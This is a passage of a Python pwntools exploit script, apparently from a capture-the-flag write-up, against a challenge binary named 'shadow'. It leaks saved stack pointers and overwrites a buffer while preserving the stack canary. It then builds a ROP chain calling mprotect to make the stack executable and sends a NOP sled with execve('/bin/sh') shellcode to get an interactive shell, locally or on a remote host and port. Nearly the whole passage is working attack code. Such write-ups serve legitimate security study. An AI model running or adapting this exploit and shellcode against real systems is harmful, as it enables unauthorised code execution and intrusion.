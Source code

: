     payload = "A" * 44               # overwrite stuff to reach the leak
    r.send(payload)
    r.recvuntil('<AAAA> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
    saved_ebp = u32(r.recv(4))
    saved_eip = u32(r.recv(4))
    some_buff = u32(r.recv(4))
    log.info("Saved EBP: " +hex(saved_ebp)) 
    log.info("Saved EIP: " +hex(saved_eip)) 
    log.info("Some Buff: " +hex(some_buff)) 

    r.recvuntil('Change name? (y/n) : ')
    r.sendline('n')
    r.recvuntil('Message length : ')
    r.sendline('-2')
    r.recvuntil('Input message : ')

    payload = "A" * 32
    payload += p32(canary)          # restore the canary
    payload += p32(0x42424242)
    payload += p32(saved_ebp)       # restore saved base ptr
    payload += p32(0x43434343)
    payload += p32(0x44444444)
    payload += p32(saved_ebp-0x100) # name ptr, target buffer
    payload += p32(0x100)           # name length input
    payload += p32(0x500)           # loop counter limit
    r.sendline(payload)

    r.recvuntil('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
#   r.recvuntil('Change name? (y/n) : ')
#   r.sendline('y')
    r.recvuntil('Input name : ')

    e = ELF('shadow')

    sc = (
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
        "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
    )

    payload = p32(e.plt['mprotect'])        # ROP calls mprotect on the stack rwx
    payload += p32(saved_ebp-0xe8)          # after mprotect, ROP jumps to shellcode
    payload += p32(saved_ebp & 0xfffff000)
    payload += p32(0x1000)
    payload += p32(7)
    payload += "\x90" * 0x50
    payload += sc

    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/mma/shadow/shadow'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}
